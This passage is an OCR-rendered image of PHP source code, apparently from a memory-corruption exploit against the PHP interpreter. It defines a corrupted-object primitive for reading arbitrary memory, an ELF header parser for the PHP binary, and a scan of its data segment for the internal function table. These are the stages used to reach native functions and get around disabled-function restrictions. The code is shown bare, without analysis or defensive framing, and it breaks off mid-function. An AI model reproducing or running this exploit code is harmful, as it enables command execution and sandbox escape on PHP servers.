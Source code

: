 ```php
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
```
